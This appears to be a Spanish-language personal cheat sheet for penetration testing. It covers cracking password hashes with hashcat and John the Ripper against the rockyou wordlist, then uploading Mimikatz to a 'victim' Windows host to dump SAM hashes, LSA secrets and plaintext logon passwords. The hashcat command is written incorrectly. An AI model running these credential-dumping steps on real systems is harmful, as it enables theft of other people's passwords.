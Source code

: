 # Hashes y Desencriptación

Propietario: Adrian Gisbert Cabello

Para desencriptar un HASH podemos usar varias herramientas:

- HASHCAT
    
    Creamos un archivo .txt para alojar el hash (***nano hash.txt***), guardamos dentro el hash, salimos y usamos el siguiente comando: `hashcat -m 400 -a hash.txt /usr/share/wordlists/rockyou.txt` → `hashcat -m 400 -a hash.txt /usr/share/wordlists/rockyou.txt --show` (para ver la contraseña que ha crackeado). 
    
    Si no funcionan los comandos usar `hashcat -help` para ver que comando tenemos que poner.
    

- JOHN THE RIPPER
    
    Para crackear el hash lo guardamos en un archivo ***hash.txt*** (por ejemplo), y mediante la herramienta ***john*** ponemos el siguiente comando: `john --format=NT hash.txt wordlist=/usr/share/wordlists/rockyou.txt`	(el formato, hay que poner el que tenga el hash)
    
- MIMIKATZ
    
    Hacemos un upload del archivo mimikatz.exe de nuestra máquina linux al equipo víctima (en este caso Win x64):
    
    `cd C:\\` (Nos vamos al directorio raíz)
    
    `mkdir Temp` (Creamos una carpeta temporal para poder trabajar)
    
    `cd Temp`
    
    `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` (Directorio donde se encuentra el archivo en nuestra máquina Kali)
    
    `shell` (Abrimos una consola de comandos)
    
    `.\mimikatz.exe`
    
    Una vez estamos dentro de Mimikatz:
    
    `lsadump::sam` (Nos da más información que `Kiwi`)
    
    `lsadump::secrets`
    
    `sekurlsa::logonpasswords` (Ver contraseñas en texto plano, si procede)
